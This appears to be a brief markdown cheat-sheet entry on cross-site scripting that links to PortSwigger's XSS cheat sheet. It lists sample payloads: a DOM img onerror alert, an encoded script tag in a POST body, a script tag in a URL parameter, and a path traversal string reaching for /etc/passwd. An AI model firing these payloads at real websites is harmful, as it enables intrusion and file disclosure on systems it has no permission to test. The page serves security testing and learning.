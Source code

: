 ```yaml
---
title: XSS Cheat Sheet
desc: Cross-site scripting cheat sheet provided by PortSwigger.
tags: [XSS]
alts: [BurpSuite, OwaspZap]
website: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
---
```


## DOM

```html
<img src=1 onerror='alert(1)' />
```

<br />

## POST request body

```
id=2&message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```

<br />

## URL parameter

```html
http://victim.com/item?id=<script>alert(1)</script>

<!-- Path traversal -->
http://victim.com/item?id=/../../../../etc/passwd
```
